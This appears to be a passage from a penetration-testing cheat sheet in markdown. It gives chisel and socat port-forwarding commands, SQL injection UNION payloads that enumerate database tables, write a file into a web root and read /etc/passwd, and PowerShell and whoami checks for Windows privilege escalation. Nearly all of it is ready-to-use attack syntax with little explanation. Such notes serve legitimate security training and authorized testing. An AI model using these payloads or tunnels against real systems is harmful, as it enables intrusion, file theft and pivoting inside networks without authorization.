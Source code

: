```bash
.\chisel.exe client <ip>:<local port to listen on> R:<first port to forward>:localhost:<first port to forward> R:<second port to forward>:localhost:<second port to forward>
```

## Socat
```bash
./socat tcp-listen:8001,reuseaddr,fork tcp:localhost:8000
```

## Proxy
```bash
export http_proxy=127.0.0.1:8080
```

---

# Web Exploitation
## SQLi
- Union Payloads
```sql
' UNION SELECT 1,table_name from information_schema.tables where table_schema='webapp'-- -
```

```sql
' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='webapp' and table_name='queue' -- -
```

#### write to a file

```sql
' UNION SELECT 1,'serioton' INTO OUTFILE '/var/www/html/test.html' -- -
```

#### read file

```sql
' UNION SELECT 1,load_file('/etc/passwd') -- -
```

---

# Windows
The script below looks for Win32 services on the host with unquoted service paths, not in the Windows folder.
```powershell
Get-WmiObject -Class Win32_Service | Where-Object { $*.PathName -inotmatch “`”” -and $*.PathName -inotmatch “:\\\\Windows\\\\” }| Select Name,Pathname
```

## PrivEsc
- check for user privileges
```powershell
whoami /priv
```
